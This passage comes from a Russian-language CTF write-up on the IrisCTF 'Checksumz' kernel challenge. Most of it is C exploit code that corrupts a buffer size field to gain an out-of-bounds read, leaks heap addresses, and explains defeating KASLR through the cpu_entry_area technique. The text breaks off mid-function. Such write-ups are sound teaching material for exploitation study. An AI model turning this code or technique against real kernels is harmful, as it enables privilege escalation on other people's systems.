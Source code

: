 ```c

        lseek(fd, (off_t)0 - i, SEEK_SET);
        read(fd, tmp_buf, 8);
        if (!strncmp(tmp_buf, "default", 7)) {
            printf("off(-): 0x%llx\n", i);
            content_addr = leak_name + i;
            break;
        }
    }
    printf("{+} buffer->content: 0x%8lx\n", content_addr);
};
```

Запустим и посмотрим на полученные адреса.
![](/assets/IrisCTF-Checksumz/Pasted image 20250110010544.png)
Можно проверить в отладчике, но кажется, что всё должно было сработать верно.
Теперь надо понять как превратить это в примитив для получения KASLR. 

Для этого можно использовать технику  `cpu_entry_area`. Для данной версии ядра она сработает, но в новых она запатчена. Смысл техники в двух словах: у вас есть постоянный адрес на рандомизируемый KASLR-ом на котором есть адреса ядра и таким образом можно обойти KASLR если есть чтение произвольного адреса. Подробнее про технику можно прочитать в интернете.

Данная область памяти находится по адресу `0xfffffe0000000000`. Но эффективные адреса лежат со смещения 4. Прочитаем их и восстановим адрес загрузки ядра. Допишем нашу функцию до конца:
```c
uint64_t try_break_kaslr(int fd) {
    if (fd == INVALID_FD) { 
        return -1;
    }

    uint8_t* buffer = (uint8_t*) calloc(BUF_SIZE, sizeof(uint8_t));
    read(fd, buffer, BUF_SIZE); // skip
    read(fd, buffer, BUF_SIZE - 1); // skip

    memset(buffer, 0x0, BUF_SIZE);
    read(fd, buffer, 256); // leak

    // get buffer->name pointer
    uint64_t leak_name = *(uint64_t*)(buffer + 17);
    printf("{+} heap leak name: 0x%llx\n", leak_name);

    // change size to 0xffffffffffffffff
    lseek(fd, (off_t)511, SEEK_SET);
    uint8_t write_buffer[16] = {0, 0xff,0xff,0xff,0xff,0xff,0xff,0xff,0xff, 0, 0, 0, 0, 0, 0, 0};
    write(fd, write_buffer, 16);
    
    uint64_t content_addr = 0x0;

    for (int i = 0; i < 0x1000000; i += 8) {
        char tmp_buf[8] = {0};
     
        lseek(fd, (off_t)512 + i, SEEK_SET);
        read(fd, tmp_buf, 8);
        if (!strncmp(tmp_buf, "default", 7)) {
            printf("off(+): 0x%llx\n", 512 + i);
            content_addr = leak_name - 512 - i;
            break;
        }

        lseek(fd, (off_t)0 - i, SEEK_SET);
        read(fd, tmp_buf, 8);
        if (!strncmp(tmp_buf, "default", 7)) {
            printf("off(-): 0x%llx\n", i);
```
